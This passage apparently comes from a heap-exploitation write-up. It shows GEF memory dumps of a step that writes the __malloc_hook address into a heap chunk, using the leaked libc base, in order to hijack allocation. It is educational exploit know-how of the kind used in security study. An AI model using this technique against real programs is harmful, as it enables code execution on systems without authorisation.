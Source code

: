 Now `ptrCopy` points to `0x560eee9a5050`. We will now write to it the address of the malloc hook, which we know from the libc base address:

```
gef➤  x/100g 0x0000560eee9a5000
0x560eee9a5000: 0x0 0x251
0x560eee9a5010: 0x0 0x0
0x560eee9a5020: 0x0 0x0
0x560eee9a5030: 0x0 0x0
0x560eee9a5040: 0x0 0x100
0x560eee9a5050: 0x7f81fad74c30  0x0
0x560eee9a5060: 0x0 0x0
0x560eee9a5070: 0x0 0x0
0x560eee9a5080: 0x0 0x0
0x560eee9a5090: 0x0 0x0
0x560eee9a50a0: 0x0 0x0
0x560eee9a50b0: 0x0 0x0
0x560eee9a50c0: 0x0 0x0
0x560eee9a50d0: 0x0 0x0
0x560eee9a50e0: 0x0 0x0
0x560eee9a50f0: 0x0 0x0
0x560eee9a5100: 0x0 0x0
0x560eee9a5110: 0x0 0x0
0x560eee9a5120: 0x0 0x0
0x560eee9a5130: 0x0 0x0
0x560eee9a5140: 0x0 0x0
0x560eee9a5150: 0x0 0x0
0x560eee9a5160: 0x0 0x0
0x560eee9a5170: 0x0 0x0
0x560eee9a5180: 0x0 0x0
0x560eee9a5190: 0x0 0x0
0x560eee9a51a0: 0x0 0x0
0x560eee9a51b0: 0x0 0x0
0x560eee9a51c0: 0x0 0x0
0x560eee9a51d0: 0x0 0x0
0x560eee9a51e0: 0x0 0x0
0x560eee9a51f0: 0x0 0x0
0x560eee9a5200: 0x0 0x0
0x560eee9a5210: 0x0 0x560eee9a5260
0x560eee9a5220: 0x0 0x0
0x560eee9a5230: 0x0 0x0
0x560eee9a5240: 0x0 0x0
0x560eee9a5250: 0x0 0x3b1
0x560eee9a5260: 0x0 0x0
0x560eee9a5270: 0x0 0x0
0x560eee9a5280: 0x0 0x0
0x560eee9a5290: 0x0 0x0
0x560eee9a52a0: 0x0 0x0
0x560eee9a52b0: 0x0 0x0
0x560eee9a52c0: 0x0 0x0
0x560eee9a52d0: 0x0 0x0
0x560eee9a52e0: 0x0 0x0
0x560eee9a52f0: 0x0 0x0
0x560eee9a5300: 0x0 0x0
0x560eee9a5310: 0x0 0x0
gef➤  x/g 0x7f81fad74c30
0x7f81fad74c30 <__malloc_hook>: 0x0
```
